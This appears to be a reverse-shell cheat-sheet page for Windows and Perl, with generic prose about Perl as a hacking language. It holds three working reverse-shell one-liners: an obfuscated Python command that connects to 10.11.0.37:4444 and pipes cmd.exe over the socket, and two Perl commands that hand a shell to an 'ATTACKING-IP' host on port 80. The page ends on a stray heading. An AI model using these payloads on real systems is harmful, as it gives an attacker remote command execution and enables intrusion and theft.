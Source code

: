 ```bash
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
Perl is a high-level programming language that is commonly used for scripting and automation tasks. It is known for its powerful text processing capabilities and its ability to work well with other programming languages. Perl scripts can be executed on various operating systems, including Windows.

Perl is often used by hackers for various purposes, such as writing exploit scripts or automating tasks during a penetration test. It provides a wide range of built-in functions and modules that can be leveraged for hacking activities.

When using Perl for hacking, it is important to have a good understanding of the language and its syntax. This includes knowledge of variables, control structures, regular expressions, and file handling. Additionally, familiarity with Perl modules that are commonly used in hacking, such as Net::FTP or Net::SSH, can be beneficial.

Perl can be installed on Windows by downloading and running the installer from the official Perl website. Once installed, Perl scripts can be executed from the command line by typing "perl" followed by the script name.

When writing Perl scripts for hacking purposes, it is important to follow best practices to ensure the code is secure and efficient. This includes sanitizing user input, properly handling errors, and using encryption when necessary.

Overall, Perl is a versatile programming language that can be a valuable tool for hackers. Its extensive functionality and cross-platform compatibility make it a popular choice for scripting and automation in the hacking community.
```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
### Introduction
